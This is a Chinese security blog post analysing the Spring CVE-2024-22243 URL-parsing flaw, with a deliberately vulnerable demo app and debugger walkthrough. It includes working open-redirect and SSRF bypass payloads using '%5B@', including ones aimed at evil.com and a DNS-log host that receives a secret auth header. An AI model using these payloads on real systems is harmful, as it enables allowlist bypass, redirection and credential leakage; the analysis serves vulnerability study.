# spring 下的 SSRF 漏洞绕过分析以及成因-先知社区

> **来源**: https://xz.aliyun.com/news/17516  
> **文章ID**: 17516

---

# spring 下的 SSRF 漏洞绕过分析以及成因

## 前言

java 项目的 ssrf 漏洞一般较少，借着 Spring 的 ssrf 漏洞正好来分析一下 spring 框架下的 ssrf 漏洞和绕过的原因

## 环境搭建

```
<dependencies>
  <dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-web</artifactId>
    <version>3.2.1</version>
  </dependency>
  <dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-thymeleaf</artifactId>
    <version>3.2.2</version>
  </dependency>
  <!-- WebClient class dependency -->
  <dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-webflux</artifactId>
    <version>3.2.2</version>
  </dependency>
</dependencies>

```

漏洞代码

```
// Author: Sean Pesce
// 
package com.seanpesce.spring;

import java.net.MalformedURLException;
import java.net.URI;
import java.net.URISyntaxException;
import java.net.URL;
import java.nio.file.FileSystems;
import java.util.Arrays;
import java.util.logging.Logger;

import org.springframework.boot.SpringApplication;
import org.springframework.boot.autoconfigure.SpringBootApplication;
import org.springframework.http.HttpEntity;
import org.springframework.http.HttpHeaders;
import org.springframework.http.HttpMethod;
import org.springframework.http.HttpStatus;
import org.springframework.http.ResponseEntity;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.ResponseStatus;
import org.springframework.web.bind.annotation.RestController;
import org.springframework.web.client.HttpClientErrorException;
import org.springframework.web.client.RestClient;
import org.springframework.web.client.RestOperations;
import org.springframework.web.client.RestTemplate;
import org.springframework.web.reactive.function.client.WebClient;
import org.springframework.web.servlet.ModelAndView;
import org.springframework.web.util.UriComponents;
import org.springframework.web.util.UriComponentsBuilder;


@RestController
@SpringBootApplication
public class VulnerableWebApp {
    static Logger logger = Logger.getLogger(VulnerableWebApp.class.getName());

    public static final String CVE_ID = "CVE-2024-22243";
    public static final String PATH_REDIRECT = "/redirect";
    public static final String PATH_HEALTH_CHECK = "/health-check";

    public static short PORT = 9999;

    // Trusted hosts for redirects
    public static final String[] TRUSTED_REDIRECT_HOSTS = new String[]{
        "127.0.0.1",
        "github.com",
        "google.com",
        "localhost",
        "seanpesce.com",
        "seanpesce.github.io",
        "wikipedia.org",
    };

    // Trusted hosts for back-end requests
    public static final String[] TRUSTED_INTERNAL_HOSTS = new String[]{
        "127.0.0.1",
        "localhost",
    };


    public static ModelAndView makeGenericResponse(HttpStatus status, String title, String msg) {
        ModelAndView modelAndView = new ModelAndView("generic");
        modelAndView.setStatus(status);
        modelAndView.addObject("titleMessage", title);
        modelAndView.addObject("bodyMessage", msg);
        return modelAndView;
    }


    public static ModelAndView makeResponse400(String msg) {
        return makeGenericResponse(HttpStatus.BAD_REQUEST, "Error 400 - Bad Request", msg);
    }


    public static ModelAndView makeResponse200(String msg) {
        return makeGenericResponse(HttpStatus.OK, "Success", msg);
    }


    public static String makeHtmlHeader() {
        StringBuilder sBuilder = new StringBuilder();
        sBuilder.append("<!DOCTYPE html>
");
        sBuilder.append("<!-- Author: Sean Pesce -->
");
        sBuilder.append("<html>
");
        sBuilder.append("<head>
");
        sBuilder.append("<meta charset="UTF-8">
");
        sBuilder.append("<meta name="viewport" content="width=device-width, initial-scale=1.0">
");
        sBuilder.append("<link rel="shortcut icon" href="data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAABAAAAAQCAMAAAAoLQ9TAAAABGdBTUEAALGPC/xhBQAAACBjSFJNAAB6JgAAgIQAAPoAAACA6AAAdTAAAOpgAAA6mAAAF3CculE8AAABBVBMVEU/UbU/UbQ/UbY+ULI/ULM+T7BAUrc+ULM7TKg+T7E8Tq0/ULQ9T687Tao/Urc+ULQ6SqQ4SJ5CVLxCVb5DVr9CVL0dJlQoNHRBVLtEV8I8Taw/UrZEV8M6SqYkL2kfJ1gSFzQAAAAKDRwYHkMmMW01RJc6S6hDVsA8TasmMW4dJVMMDyEIChcuO4QJDBoAAQEBAQMEBgwcJFA6S6c0Q5UZIUkHCRMBAgQcJVEjLWUvPIYGBxAKDR0BAQIDBAk3R54OEicCAgUpNXY5SaM8Ta0cJE8FBg0TGTYVGzszQZExP4wXHkMZIUhAU7k9T7A2RpxDVsFBVLwuO4I4SKFBU7tBU7r///9e5KOYAAAAAWJLR0RWCg3piQAAAAd0SU1FB+cGHgwIFs0EkqsAAAC6SURBVBjTY2BAAEYmZhYkLhMrIxs7BxOSACcXNw8vHwM/OyNMRECQh5GdQUiYjZ2ZEaSSkZGRTUSUQUycU0KSQUqagZ1NRkpWTp5BQVFJWUVVTZpBXUNTS1tHgUFXT1HfwNDI2MTUTFHR3MKSgdnK2sZW0U7W3sFR0VHRyZnBRc3Vzd3DU0Lay9vDzEfGl4HRz8+fPSCQTTYogD3YjwHoBibpECZ2dgY2CWamUGmIi7jBJDsDIzcDWQAAiSYStruNAvgAAAAldEVYdGRhdGU6Y3JlYXRlADIwMjMtMDYtMzBUMTI6MDg6MjIrMDA6MDDAnJm4AAAAJXRFWHRkYXRlOm1vZGlmeQAyMDIzLTA2LTMwVDEyOjA4OjIyKzAwOjAwscEhBAAAACh0RVh0ZGF0ZTp0aW1lc3RhbXAAMjAyMy0wNi0zMFQxMjowODoyMiswMDowMObUANsAAAAASUVORK5CYII=">
");
        sBuilder.append("<title>Spring " + CVE_ID + " | Sean Pesce</title>
");
        sBuilder.append("<style>
");
        sBuilder.append("body { font: normal 16px Verdana, Arial, sans-serif; padding: 20px; }
");
        sBuilder.append("</style>
");
        sBuilder.append("</head>
");
        return sBuilder.toString();
    }


    @GetMapping("/")
    public String homepage() {
        StringBuilder sBuilder = new StringBuilder();
        sBuilder.append(makeHtmlHeader());
        sBuilder.append("<body>
");
        sBuilder.append("<h1>" + CVE_ID + "</h1>
");
        sBuilder.append("<b>Author: Sean Pesce</b>
");
        sBuilder.append("<br><br><br>
");
        sBuilder.append("This web app demonstrates potentially-exploitable scenarios for " + CVE_ID + " in the Spring Framework:
");
        sBuilder.append("<br>
");
        sBuilder.append("<ul>
");
        sBuilder.append("<li><a href="" + PATH_REDIRECT + "">Open redirect</a></li>
");
        sBuilder.append("<li><a href="" + PATH_HEALTH_CHECK + "">Server-Side Request Forgery (SSRF)</a></li>
");
        sBuilder.append("</ul>
");
        sBuilder.append("</body>
");
        sBuilder.append("</html>
");
        return sBuilder.toString();
    }


    // Example: Open Redirect (CWE-601)
    //     Exploitable with a URL such as "https://google.com[@evil.com"
    //     To test this, simply navigate to http://127.0.0.1:${PORT}/redirect?url=https://google.com%5b@evil.com
    @GetMapping(PATH_REDIRECT)
    public ModelAndView openRedirect(@RequestParam(name="url", required=false) String url) {
        // Verify that the user provided a redirect URL
        if (url == null || url.isEmpty()) {
            return makeResponse400("Please provide a redirect URL with the "url" parameter");
        }

        // Check for a valid web URL
        if (!(url.startsWith("http://") || url.startsWith("https://"))) {
            return makeResponse400("Not a valid web URL - must start with "http(s)://"");
        }

        // Parse the host from the redirect URL
        String host = UriComponentsBuilder.fromHttpUrl(url).build().getHost();
        //String host = UriComponentsBuilder.fromUriString(url).build().getHost();  // Also vulnerable

        // Confirm that the redirect URL points to a trusted website
        if (Arrays.asList(TRUSTED_REDIRECT_HOSTS).contains(host)) {
            // Redirect to the specified URL
            ModelAndView modelAndView = new ModelAndView("redirect:" + url);
            return modelAndView;
        }
        
        // Redirect URL does not point to a trusted host
        return makeResponse400("Invalid redirect URL - "" + host + "" is not a trusted host name ");
    }


    // Example: Server-side Request Forgery (SSRF) (CWE-918)
    //     Exploitable with a URL such as "https://evil.com[@127.0.0.1"
    //     To test this, simply navigate to http://127.0.0.1:${PORT}/health-check?url=https://evil.com%5b@127.0.0.1
    @GetMapping(PATH_HEALTH_CHECK)
    public ModelAndView ssrf(@RequestParam(name="url", required=false) String url) {
        // Verify that the user provided a server URL
        if (url == null || url.isEmpty()) {
            return makeResponse400("Please provide a server URL with the "url" parameter");
        }
        logger.info("Performing health check for URL: "" + url + """);

        // Check for a valid web URL
        if (!(url.startsWith("http://") || url.startsWith("https://"))) {
            return makeResponse400("Not a valid web URL - must start with "http(s)://"");
        }

        // Parse the host from the server URL
        String host = "";
        try {
            host = new URL(url).getHost();
        } catch (MalformedURLException err) {
            logger.warning("Error for URL: "" + url + "":
    " + err);
            return makeResponse400("Health check failed:
 " + err);
        }
        
        HttpHeaders headers = new HttpHeaders();

        // Check whether the server URL points to a trusted internal host
        if (Arrays.asList(TRUSTED_INTERNAL_HOSTS).contains(host)) {
            // Add a secret authentication token header for trusted internal servers
            logger.info("Appending auth token for internal host: "" + host + """);
            headers.add("X-Auth", "SECRET_TOKEN_VALUE");
        }

        // Send an HTTP GET request to see if the target server is "healthy"
        ResponseEntity<String> responseEntity = null;
        try {

            // RestTemplate/RestOperations implementation:
            RestOperations restTemplate = new RestTemplate();
            HttpEntity<?> requestEntity = new HttpEntity<Object>(headers);
            responseEntity = restTemplate.exchange(url, HttpMethod.GET, requestEntity, String.class);

            // // WebClient implementation:
            // WebClient webClient = WebClient.create();
            // responseEntity = webClient.get()
            //         .uri(url)
            //         .headers(httpHeaders -> httpHeaders.addAll(headers))
            //         .retrieve()
            //         .toEntity(String.class)
            //         .block();

            // // RestClient implementation:
            // RestClient restClient = RestClient.create();
            // responseEntity = restClient.get()
            //         .uri(url)
            //         .headers(httpHeaders -> httpHeaders.addAll(headers))
            //         .retrieve()
            //         .toEntity(String.class);

        } catch (Exception err) {
            // Throws HttpClientErrorException if an HTTP 4XX response is received
            logger.warning("Error for URL: "" + url + "":
    " + err);
            return makeResponse400("Health check failed:
 " + err);
        }

        if (responseEntity != null) {
            return makeResponse200("Health check passed: " + responseEntity.getStatusCodeValue());
        }
        return makeResponse400("Health check failed.");
    }


    public static void main(String[] args) throws URISyntaxException {
        // Get JAR file path for help output
        String jarName = VulnerableWebApp.class.getProtectionDomain().getCodeSource().getLocation().toURI().getPath();
        jarName = jarName.substring(jarName.lastIndexOf(FileSystems.getDefault().getSeparator()) + 1);
        if (Arrays.stream(args).anyMatch(arg -> arg.equals("--help") || arg.equals("-h"))) {
            System.out.println("Usage: 

  java -jar " + jarName + " [port]

Default port: " + PORT);
            System.exit(0);
        }

        if (args.length > 0) {
            PORT = Short.parseShort(args[0]);
        }
        System.setProperty("server.port", Short.toString(PORT));

        // Start the vulnerable web application
        SpringApplication.run(VulnerableWebApp.class, args);
    }
}
```

<https://github.com/SeanPesce/CVE-2024-22243>

## Spring 的重定向

### 漏洞复现

启动环境后

这里代码有两种情况

一种是 Spring 的重定向

我们输入如下的 payload

```
http://127.0.0.1:9999/redirect?url=http://127.0.0.1%5B@www.baidu.com
```

注意这里必须要编码，%5B 就是 `[`



成功重定向到了百度绕过了检测

### 漏洞分析

我们调试分析一下

首先检测我们的起始头，需要 http 协议或者 https

```
if (!(url.startsWith("http://") || url.startsWith("https://"))) {
    return makeResponse400("Not a valid web URL - must start with "http(s)://"");
}
```

然后就是对 host 的处理



将我们的 url 传入了 fromHttpUrl 处理

```
public static UriComponentsBuilder fromHttpUrl(String httpUrl) {
    Assert.notNull(httpUrl, "HTTP URL must not be null");
    Matcher matcher = HTTP_URL_PATTERN.matcher(httpUrl);
    if (matcher.matches()) {
        UriComponentsBuilder builder = new UriComponentsBuilder();
        String scheme = matcher.group(1);
        builder.scheme(scheme != null ? scheme.toLowerCase() : null);
        builder.userInfo(matcher.group(4));
        String host = matcher.group(5);
        if (StringUtils.hasLength(scheme) && !StringUtils.hasLength(host)) {
            throw new IllegalArgumentException("[" + httpUrl + "] is not a valid HTTP URL");
        } else {
            builder.host(host);
            String port = matcher.group(7);
            if (StringUtils.hasLength(port)) {
                builder.port(port);
            }

            builder.path(matcher.group(8));
            builder.query(matcher.group(10));
            String fragment = matcher.group(12);
            if (StringUtils.hasText(fragment)) {
                builder.fragment(fragment);
            }

            return builder;
        }
    } else {
        throw new IllegalArgumentException("[" + httpUrl + "] is not a valid HTTP URL");
    }
}
```

首先使用正则表达式匹配



对于的匹配规则如下

```
private static final Pattern QUERY_PARAM_PATTERN = Pattern.compile("([^&=]+)(=?)([^&]+)?");
private static final String SCHEME_PATTERN = "([^:/?#]+):";
private static final String HTTP_PATTERN = "(?i)(http|https):";
private static final String USERINFO_PATTERN = "([^@\[/?#]*)";
private static final String HOST_IPV4_PATTERN = "[^\[/?#:]*";
private static final String HOST_IPV6_PATTERN = "\[[\p{XDigit}:.]*[%\p{Alnum}]*]";
private static final String HOST_PATTERN = "(\[[\p{XDigit}:.]*[%\p{Alnum}]*]|[^\[/?#:]*)";
private static final String PORT_PATTERN = "(\{[^}]+\}?|[^/?#]*)";
private static final String PATH_PATTERN = "([^?#]*)";
private static final String QUERY_PATTERN = "([^#]*)";
private static final String LAST_PATTERN = "(.*)";
private static final Pattern URI_PATTERN = Pattern.compile("^(([^:/?#]+):)?(//(([^@\[/?#]*)@)?(\[[\p{XDigit}:.]*[%\p{Alnum}]*]|[^\[/?#:]*)(:(\{[^}]+\}?|[^/?#]*))?)?([^?#]*)(\?([^#]*))?(#(.*))?");
private static final Pattern HTTP_URL_PATTERN = Pattern.compile("^(?i)(http|https):(//(([^@\[/?#]*)@)?(\[[\p{XDigit}:.]*[%\p{Alnum}]*]|[^\[/?#:]*)(:(\{[^}]+\}?|[^/?#]*))?)?([^?#]*)(\?([^#]*))?(#(.*))?");

```

解析出来我们的 url 为 127.0.0.1，而因为 `[` 把我们后面的域名解析为了用户信息



```
public static final String[] TRUSTED_REDIRECT_HOSTS = new String[]{
    "127.0.0.1",
    "github.com",
    "google.com",
    "localhost",
    "seanpesce.com",
    "seanpesce.github.io",
    "wikipedia.org",
};
```

是在我们的白名单中，然后重定向



但是在重定向的过程中实际解析的域名是@后面的域名

直接重定向到百度



## Spring 与 URL 类解析差异绕过

### 漏洞复现

代码如下

```
@GetMapping(PATH_HEALTH_CHECK)
public ModelAndView ssrf(@RequestParam(name="url", required=false) String url) {
    // Verify that the user provided a server URL
    if (url == null || url.isEmpty()) {
        return makeResponse400("Please provide a server URL with the "url" parameter");
    }
    logger.info("Performing health check for URL: "" + url + """);

    // Check for a valid web URL
    if (!(url.startsWith("http://") || url.startsWith("https://"))) {
        return makeResponse400("Not a valid web URL - must start with "http(s)://"");
    }

    // Parse the host from the server URL
    String host = "";
    try {
        host = new URL(url).getHost();
    } catch (MalformedURLException err) {
        logger.warning("Error for URL: "" + url + "":
    " + err);
        return makeResponse400("Health check failed:
 " + err);
    }
    
    HttpHeaders headers = new HttpHeaders();

    // Check whether the server URL points to a trusted internal host
    if (Arrays.asList(TRUSTED_INTERNAL_HOSTS).contains(host)) {
        // Add a secret authentication token header for trusted internal servers
        logger.info("Appending auth token for internal host: "" + host + """);
        headers.add("X-Auth", "SECRET_TOKEN_VALUE");
    }

    // Send an HTTP GET request to see if the target server is "healthy"
    ResponseEntity<String> responseEntity = null;
    try {

        // RestTemplate/RestOperations implementation:
        RestOperations restTemplate = new RestTemplate();
        HttpEntity<?> requestEntity = new HttpEntity<Object>(headers);
        responseEntity = restTemplate.exchange(url, HttpMethod.GET, requestEntity, String.class);
    } catch (Exception err) {
        // Throws HttpClientErrorException if an HTTP 4XX response is received
        logger.warning("Error for URL: "" + url + "":
    " + err);
        return makeResponse400("Health check failed:
 " + err);
    }

    if (responseEntity != null) {
        return makeResponse200("Health check passed: " + responseEntity.getStatusCodeValue());
    }
    return makeResponse400("Health check failed.");
}
```

这次获取 host 的方法使用了 URL 类去解析

输入如下 payload

```
http://127.0.0.1:9999/health-check?url=https://8c0b613b.log.dnslog.sbs.%5B@127.0.0.1
```



可以看到了访问记录

### 调试分析



首先是不为空和标准的检测

然后获取 host 的方法变了，是使用 host = new URL(url).getHost();

```
<init>:703, URL (java.net)
<init>:569, URL (java.net)
<init>:516, URL (java.net)
ssrf:170, VulnerableWebApp (com.seanpesce.spring)
```



是通过 parseURL 去解析的

代码很长解析逻辑如下

当 URL 以 // 开头时，表示 URL 包含 Authority 部分 `（即 [userInfo@]host[:port]）`

```
if (!isUNCName && (start <= limit - 2) && (spec.charAt(start) == '/') &&
    (spec.charAt(start + 1) == '/')) {
    start += 2;
    i = spec.indexOf('/', start);
    if (i < 0 || i > limit) {
        i = spec.indexOf('?', start);
        if (i < 0 || i > limit)
            i = limit;
    }
    host = authority = spec.substring(start, i);
}

```

解析 UserInfo 和 Host

```
int ind = authority.indexOf('@');
if (ind != -1) {
    if (ind != authority.lastIndexOf('@')) {
        // 多个 '@'，非法
        userInfo = null;
        host = null;
    } else {
        userInfo = authority.substring(0, ind);
        host = authority.substring(ind+1);
    }
} else {
    userInfo = null;
}

```

如果 authority 包含 @，那么 @ 之前的部分是 userInfo，@ 之后的部分是 `host[:port]`

解析出来是 127.0.0.1

那为什么我们的域名能够被正常访问呢

具体逻辑是在 exchange 方法

```
RestOperations restTemplate = new RestTemplate();
HttpEntity<?> requestEntity = new HttpEntity<Object>(headers);
responseEntity = restTemplate.exchange(url, HttpMethod.GET, requestEntity, String.class);
```

跟进

```
public <T> ResponseEntity<T> exchange(String url, HttpMethod method, @Nullable HttpEntity<?> requestEntity, Class<T> responseType, Object... uriVariables) throws RestClientException {
    RequestCallback requestCallback = this.httpEntityCallback(requestEntity, responseType);
    ResponseExtractor<ResponseEntity<T>> responseExtractor = this.responseEntityExtractor(responseType);
    return (ResponseEntity)nonNull((ResponseEntity)this.execute(url, method, requestCallback, responseExtractor, uriVariables));
}
```

url 被传入了 execute

直接给出调用栈  


最后来到 initUriComponentsBuilder 方法

```
private UriComponentsBuilder initUriComponentsBuilder(String uriTemplate) {
    UriComponentsBuilder result;
    if (!StringUtils.hasLength(uriTemplate)) {
        result = DefaultUriBuilderFactory.this.baseUri != null ? DefaultUriBuilderFactory.this.baseUri.cloneBuilder() : UriComponentsBuilder.newInstance();
    } else if (DefaultUriBuilderFactory.this.baseUri != null) {
        UriComponentsBuilder builder = UriComponentsBuilder.fromUriString(uriTemplate);
        UriComponents uri = builder.build();
        result = uri.getHost() == null ? DefaultUriBuilderFactory.this.baseUri.cloneBuilder().uriComponents(uri) : builder;
    } else {
        result = UriComponentsBuilder.fromUriString(uriTemplate);
    }

    if (DefaultUriBuilderFactory.this.encodingMode.equals(DefaultUriBuilderFactory.EncodingMode.TEMPLATE_AND_VALUES)) {
        result.encode();
    }

    this.parsePathIfNecessary(result);
    return result;
}
```

而它的底层也是使用 fromUriString 来解析的





导致我们实际的 host 为我们的目标地址，导致了绕过
